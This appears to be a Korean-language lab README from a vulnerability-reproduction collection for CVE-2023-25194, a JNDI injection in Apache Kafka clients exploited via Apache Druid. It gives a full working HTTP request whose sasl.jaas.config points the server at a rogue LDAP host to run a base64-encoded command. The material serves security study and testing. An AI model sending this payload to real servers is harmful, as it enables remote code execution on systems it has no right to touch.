



# Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

Apache Kafka는 오픈 소스 분산 이벤트 스트리밍 플랫폼으로, 실시간 데이터 스트리밍과 처리에 사용되는 플랫폼입니다. Kafka 클라이언트는 Apache Kafka로부터 메시지를 생성하고 소비할 수 있는 Java 라이브러리 집합입니다.

버전 3.3.2 이전의 Apache Kafka 클라이언트에서 JNDI 삽입 문제가 있습니다. 만약 공격자가 어떤 연결자(Kafka 클라이언트)의 `sasl.jaas.config` 속성을 `com.sun.security.auth.module.JndiLoginModule`로 설정할 수 있다면, 공격자는 서버가 공격자의 LDAP 서버에 연결하도록 할 수 있습니다. 이렇게 하면 서버가 LDAP 응답을 역직렬화하게 되고, 공격자는 Kafka 연결 서버에서 java 역직렬화 가젯 체인을 실행하기 위해 LDAP 응답을 사용할 수 있습니다. 결과적으로, 공격자는 클래스 경로에 가젯이 있는 경우 신뢰할 수 없는 데이터의 무제한 역직렬화 또는 RCE 취약점을 유발시킬 수 있습니다.

이 문제는 Java 라이브러리에서 발생하므로, kafka-clients 라이브러리를 사용하는 실제 소프트웨어를 찾아야 합니다.

이 소프트웨어는 Apache Druid이며, Apache Druid은 kafka-clients 라이브러리를 사용하여 그 중 하나의 데이터 원본에 연결합니다. 이 안내서는 Apache Druid 서버에서 CVE-2023-25194를 어떻게 악용하는지를 보여줍니다.

참고 자료:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## 취약한 환경

Apache Druid server를 실행하기 위해 아래 명령을 실행하십시오. 이 명령은 kafka-clients 3.3.1에 종속된 Apache Druid 25.0.0 서버를 시작합니다.

```
docker compose up -d
```

서버가 시작되면 Apache Druid의 홈페이지를 `http://your-ip:8888`에서 볼 수 있습니다.

## 악용 공격

먼저, [JNDIExploit](https://github.com/vulhub/JNDIExploit)을 사용하여 악의적인 JNDI 서버를 시작하십시오:



이 도구에서 악의적인 URL을 얻게 될 것이며, 이를 수정하세요.

악의적인 LDAP URL을 다음 요청에 붙여넣고 보내세요.

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```



보시다시피, `id > /tmp/success`가 성공적으로 실행되었습니다.


